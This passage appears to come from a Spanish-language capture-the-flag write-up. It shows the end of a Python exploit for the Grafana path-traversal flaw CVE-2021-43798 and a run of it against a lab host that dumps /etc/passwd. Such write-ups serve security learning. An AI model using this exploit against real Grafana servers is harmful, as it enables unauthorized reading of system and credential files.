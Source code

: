 ```python
			request = Request('GET', vulnerable_path)

			prepare_req = session.prepare_request(request)
			prepare_req.url = vulnerable_path

			response = session.send(prepare_req)

			if 'Plugin not found' in response.text:
				sys.exit('\n[!] File not found')
			else:
				if response.status_code == 200:
					print('\n{}\n'.format(response.text))

	except Exception as error:
		sys.exit('\n[X] Error: %s' % error)


## Main flow
if __name__ == '__main__':
	parser = argparse.ArgumentParser(
		description="Vulnerable path traversal in Grafana for version v8.0.0-beta1 to v8.3.0",
		formatter_class=argparse.RawDescriptionHelpFormatter,
		epilog="""Example:
		CVE-2021-43798.py -t http://10.10.11.183:3000 -f /etc/passwd
		""")

	parser.add_argument('-t', '--target', required=True, help='Grafana host')
	parser.add_argument('-f', '--file', required=True, help='File name to read')

	args = parser.parse_args()

	make_request(args)
```

Ahora intentamos leer el archivo _/etc/passwd_ y lo conseguimos:

```shell
❯ python3 CVE-2021-43798.py -t 'http://10.10.11.183:3000' -f '/etc/passwd'

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
```